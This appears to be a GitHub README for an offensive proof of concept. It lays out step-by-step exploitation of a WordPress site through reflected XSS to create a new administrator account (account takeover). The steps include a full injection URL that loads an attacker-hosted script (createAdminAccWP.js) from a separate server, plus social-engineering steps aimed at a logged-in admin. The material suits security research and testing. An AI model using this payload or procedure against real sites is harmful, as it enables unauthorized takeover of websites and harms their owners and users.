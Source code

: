 # [authn] Create New Admin User (ATO)

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccWP.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: minimum password length is 9 characters)

    `newAccEmail` - email of the user account to be created

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/wordpress"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/rxss.php?q=<script src=http://192.168.5.5/createAdminAccWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.5` - web server hosting the payload

5. [post exploit] attacker logs into target WordPress site using specified credentials

    http://192.168.5.10/wp-login.php

## Screenshot

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/CreateNewAdmin/screenshots/WordPress_-_create_new_admin_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/CreateNewAdmin/screenshots/WordPress_-_create_new_admin_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/0e60144c-02c9-4e71-a1cf-1241a2990d3f
